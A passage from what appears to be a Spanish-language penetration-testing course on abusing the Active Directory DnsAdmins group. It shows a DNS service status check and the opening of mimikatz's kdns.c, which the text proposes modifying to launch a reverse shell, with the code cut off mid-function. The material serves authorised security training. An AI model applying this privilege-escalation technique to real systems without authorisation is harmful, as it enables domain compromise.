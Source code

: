 #### Comprobando el estado del servicio DNS

Si todo fue en planificación, la consulta del servicio DNS mostrará que se está ejecutando. También podemos confirmar que DNS funciona correctamente dentro del entorno realizando un`nslookup`contra el localhost u otro anfitrión en el dominio.

  Dnsadmins

```cmd-session
C:\htb> sc query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Una vez más, este es un ataque potencialmente destructivo que solo debemos llevar a cabo con permiso explícito de y en coordinación con nuestro cliente. Si entienden los riesgos y quieren ver una prueba de concepto completa, entonces los pasos descritos en esta sección ayudarán a demostrar el ataque y limpiar después.

---

## Usando mimilib.dll

Como se detalla en este[correo](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), también podríamos utilizar[mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)del creador del`Mimikatz`herramienta para obtener la ejecución de comandos modificando el[kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c)Archivo para ejecutar una línea de un enlace de Shell Inverse u otro comando de nuestra elección.

Código:do

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
```